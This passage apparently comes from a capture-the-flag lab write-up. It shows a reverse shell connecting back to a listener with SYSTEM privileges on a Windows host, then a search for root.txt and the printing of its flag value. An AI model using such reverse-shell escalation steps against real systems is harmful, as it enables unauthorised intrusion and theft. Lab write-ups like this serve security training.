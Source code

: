 The service start command says `The service did not respond to the start or control request in a timely fashion.`, but the reverse shell should have run successfully

Verify that the reverse shell has hooked on from the listener console

```cmd
connect to [192.168.17.10] from (UNKNOWN) [10.0.88.33] 49356
Microsoft Windows [Version 6.2.9200]
(c) 2012 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Excellent, we now have SYSTEM-level shell on the target

# 6. Getting the proof

Now all that's left is to search and retrieve the flag:

```cmd
C:\Windows\system32>dir /s C:\*root.txt*
dir /s C:\*root.txt*
 Volume in drive C has no label.
 Volume Serial Number is B00F-4DBD

 Directory of C:\Users\Administrator\Desktop

10/28/2021  03:15 PM                34 root.txt
               1 File(s)             34 bytes

     Total Files Listed:
               1 File(s)             34 bytes
               0 Dir(s)  20,274,536,448 bytes free

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
eb5bd0abcab3b567de961fae47c4ca01
```
